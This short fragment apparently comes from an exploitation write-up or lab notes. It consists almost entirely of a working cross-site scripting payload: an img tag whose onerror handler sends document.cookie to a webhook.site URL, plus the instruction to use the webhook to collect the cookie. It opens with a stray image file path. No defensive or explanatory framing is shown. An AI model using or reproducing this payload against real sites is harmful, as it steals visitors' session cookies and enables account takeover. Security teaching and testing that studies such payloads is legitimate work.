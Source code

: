 ```html
<img src=x onerror="new Image().src='https://webhook.site/5f53ba4e-xxxx-xxxx-xxxx-xxxxxxxxxxxx?c='+document.cookie">
```

Use webhook to obtain the cookie

